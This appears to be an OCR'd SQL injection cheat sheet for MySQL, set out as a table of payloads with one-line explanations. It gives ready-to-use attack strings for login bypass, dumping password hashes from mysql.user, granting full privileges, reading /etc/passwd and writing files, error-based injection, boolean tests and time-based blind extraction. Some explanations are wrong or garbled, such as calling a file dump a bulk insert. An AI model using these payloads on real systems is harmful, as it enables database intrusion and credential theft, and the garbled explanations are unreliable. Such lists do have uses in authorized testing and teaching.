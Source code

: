 . | SELECT * FROM members WHERE $username = 'admin'--' AND $password = 'password'
. | - This command lists all the users from the column ‘members’ having $username value as ‘admin’ and $password value as ‘password’.
List Passwords | SELECT user, password FROM mysql.user;
. | - This command retrieves the columns ‘user’ and ‘password‘ from the table ‘mysql.user’.
. | SELECT user, password FROM mysql.user LIMIT 1,1;
. | - This command retrieves the columns ‘user’ and ‘password‘ from the table ‘mysql.user’ with LIMIT 1,1.
. | SELECT password FROM mysql.user WHERE user = 'root';
. | - This command retrieves the column ‘password‘ from the table ‘mysql.user’ having user value as ‘root’.
List Password Hashes | SELECT host, user, password FROM mysql.user;
. | - This command lists columns ‘host’, ‘user’ and ‘password’ from the table ‘mysql.user’.
Bulk Insert | SELECT * FROM mytable INTO dumpfile '/tmp/somefile';
. | - This command is used to insert a file content to a table.
Create Users | CREATE USER username IDENTIFIED BY 'password';
. | - This command creates a username ‘USER’ who authenticates by password to log on to the database.
Drop User | DROP USER username;
. | - This command drops a username ‘USER’ from the table.
Make User DBA | GRANT ALL PRIVILEGES ON *.* TO username@'%';
. |  - This command grants DBA privileges to a user.
Local File Access | …’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’)
. | - This command allows you to only read world-readable files.
. | SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’;
. | - This command allows you to write to file system.
Hostname, IP Address | SELECT @@hostname;
. | - This command obtains the Hostname and IP address of a system
Error Based SQLi attack: To throw conversion errors. | .
. | (select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1));
. | - This command is used to receive integer inputs.
. | - '+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+';
. |  - This command is used to receive string inputs.
Clear SQLi Tests: For Boolean SQL injection and silent attacks | .
. | product.php?id=4
. | product.php?id=5-1
. | product.php?id=4 OR 1=1
. | product.php?id=-1 OR 17-7=10
. | - These commands can be used to test for Boolean SQL
injection and silent attacks. Blind SQL Injection (Time Based) | .
. | SLEEP(25)--
. | SELECT BENCHMARK(1000000,MD5('A'));
. | ProductID=1 OR SLEEP(25)=0 LIMIT 1—
. | ProductID=1) OR SLEEP(25)=0 LIMIT 1--
. | ProductID=1' OR SLEEP(25)=0 LIMIT 1—
. | ProductID=1') OR SLEEP(25)=0 LIMIT 1--
. | ProductID=1)) OR SLEEP(25)=0 LIMIT 1—
. | ProductID=SELECT SLEEP(25)—
. | - These commands trigger a measurable time delay.
Time base SQLi exploitation | ?vulnerableParam=-99 OR IF((ASCII(MID(({INJECTON}),1,1)) = 100),SLEEP(14),1) = 0 LIMIT 1— 
. |  {INJECTION} = You want to run the query.
. | - If the condition is true, will response after 14 seconds. If is false, will be delayed for one second.
